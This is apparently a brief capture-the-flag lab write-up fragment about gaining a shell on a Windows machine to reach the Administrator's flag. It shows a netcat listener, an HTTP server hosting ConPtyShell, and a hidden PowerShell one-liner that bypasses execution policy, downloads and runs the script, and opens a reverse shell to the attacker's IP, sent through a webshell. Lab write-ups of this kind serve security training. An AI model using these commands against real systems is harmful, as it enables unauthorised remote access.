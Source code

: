 ### Questions

##### Get the flag on the Administrator's desktop.

Handle conpty shell

```bash
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; (stty size; cat) | nc -lvnp 1111
listening on [any] 1111 ...
```

Host `ConPtyShell.ps1`

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell/ConPtyShell]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Payload:

```bash
powershell -nop -sta -NonI -w hidden -exec bypas -C "IEX (new-object net.webclient).downloadstring('http://10.11.19.145/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.11.19.145 1111"
```

Send payload from webshell

![](../../attachment/e327f80428418e453ac3e6410335b9a9.png)

PrivEscCheck
